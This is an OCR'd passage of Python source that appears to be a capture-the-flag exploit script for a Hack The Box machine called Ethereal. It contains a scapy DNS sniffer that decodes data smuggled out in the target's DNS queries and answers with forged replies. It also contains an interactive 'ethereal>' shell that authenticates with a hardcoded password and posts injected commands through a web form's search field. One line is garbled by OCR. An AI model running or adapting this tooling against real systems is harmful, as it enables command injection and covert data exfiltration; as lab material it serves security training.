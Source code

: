      24     def run(self):
     25         print(f"[*] Starting DNS Sniffer on {self.interface} for target {self.target_ip}.")
     26         sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",
     27                 prn=self.parse_packet, stop_filter=lambda p: p.haslayer(DNS) and
     28                 p.getlayer(DNS).qd.qname.decode('utf-8') == kill_domain)
     29         print(f"[*] Received kill packet. Shutting down sniffer thread.")
     30 
     31 
     32     def parse_packet(self, p):
     33         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
     34             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     35             if domain == kill_domain: return
     36             print(domain[1:-2].replace('X.Q',' ').strip())
     37             reply = IP(dst=p[IP].src)/UDP(dport=p[UDP].sport, sport=53)/DNS(id=p[DNS].id,
     38                     ancount=1, an=DNSRR(rrname=p[DNSQR].qname, rdata='127.0.0.1')/DNSRR(rrname=domain,
     39                     rdata='127.0.0.1'))
     40             send(reply, verbose=0, iface=self.interface)
     41 
     42 class Terminal(Cmd):
     43     prompt = "ethereal> "
     44 
     45 
     46     def __init__(self, proxy=None):
     47         super().__init__()
     48         self.proxy = proxy or {}
     49         self.auth = HTTPBasicAuth('alan','!C414m17y57r1k3s4g41n!')
     50         self.do_login()
     51         self.fail_count = 0
     52 
     53 
     54     def do_login(self, args=''):
     55         print("[*] Logging in and fetching state information.")
     56         resp = requests.get('http://ethereal.htb:8080/', auth=self.auth, proxies=self.proxy)
     57         soup = BeautifulSoup(resp.text, .md.parser')
     58         self.view_state = soup.find("input", id="__VIEWSTATE").get('value')
     59         self.view_state_gen = soup.find("input", id="__VIEWSTATEGENERATOR").get('value')
     60         self.event_val = soup.find("input", id="__EVENTVALIDATION").get('value')
     61         print("[+] State information received.")
     62 
     63 
     64     def send_post(self, search):
     65         data = {'__VIEWSTATE': self.view_state,
     66                 '__VIEWSTATEGENERATOR': self.view_state_gen,
     67                 '__EVENTVALIDATION': self.event_val,
     68                 'search': search,
     69                 'ctl02': ''}
     70         try:
     71             start = time.time()
     72             resp = requests.post('http://ethereal.htb:8080/',
     73                              proxies=self.proxy,
     74                              data = data,
     75                              auth = self.auth,
     76                              timeout=120)
     77             if resp.status_code == 500 and time.time() - start < 30:
     78                 print("[-] Unable to connect to Ethereal\n[*] Running login")
     79                 self.do_login()
     80                 print("[*] Try running the command again.")
     81         except requests.exceptions.Timeout:
     82             pass
     83 
     84 
     85     def do_exit(self, args=''):
     86         print("[*] Sending kill request.")